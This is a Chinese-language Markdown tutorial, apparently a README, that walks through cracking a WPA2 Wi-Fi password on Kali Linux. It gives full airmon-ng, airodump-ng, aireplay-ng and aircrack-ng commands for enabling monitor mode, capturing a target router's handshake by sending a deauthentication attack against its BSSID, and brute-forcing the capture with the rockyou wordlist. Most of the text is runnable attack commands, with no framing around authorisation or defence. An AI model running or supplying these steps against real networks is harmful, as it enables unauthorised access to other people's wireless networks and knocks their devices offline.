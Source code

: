 总操作流程：
- 1、[开启](#kail-linux-01)
- 2、[抓包](#kail-linux-02)
- 3、[破解](#kail-linux-03)

***

# <a name="kail-linux-01" href="#" >开启</a>

>1、开启监听模式

```shell
ifconfig wlan0 up

# 关闭命令：airmon-ng stop wlan0mon
airmon-ng start wlan0

ifconfig
```

- 成功标志

![](image/1-1.png)

>2、开始扫描附近的无线网络

```shell
airodump-ng wlan0mon
```
![](image/1-2.png)

# <a name="kail-linux-02" href="#" >抓包</a>

>1、监听与获取

```
airodump-ng wlan0mon --bssid 78:02:F8:27:F8:BB -c 6 -w wpa2 
```
 - c指定频道号
 - bssid指定路由器bssid
 - w指定抓取的数据包保存位置

![](image/1-3.png)

 > 2、断开路由器一次

 `路由被断开后会自动启动，启动后连接wifi设备的会自动重新连接wifi`

 ```shell
 aireplay-ng -0 1 -a 78:02:F8:27:F8:BB wlan0mon
 ```

- 0表示发起deauthentication攻击， 0为无限
- a指定无线路由器BSSID
- 成功标志

![](image/1-4.png)

# <a name="kail-linux-01" href="#" >破解</a>

```shell
airmon-ng stop wlan0mon

# 解压字典
gzip -d /usr/share/wordlists/rockyou.txt.gz

cd ~

# 可以看到抓包的-w后的 wpa2的名字的.cap文件

ls wpa*

# 第一次抓包是01，第二次抓包是02
aircrack-ng -a2 -b 78:02:F8:27:F8:BB -w /usr/share/wordlists/rockyou.txt wpa2-01.cap
或则
aircrack-ng -a2 -e MIUI5 -w /usr/share/wordlists/rockyou.txt wpa2-01.cap
```

- -b是指定要破解wifi的BSSID
- -e是指定要破解wifi的名
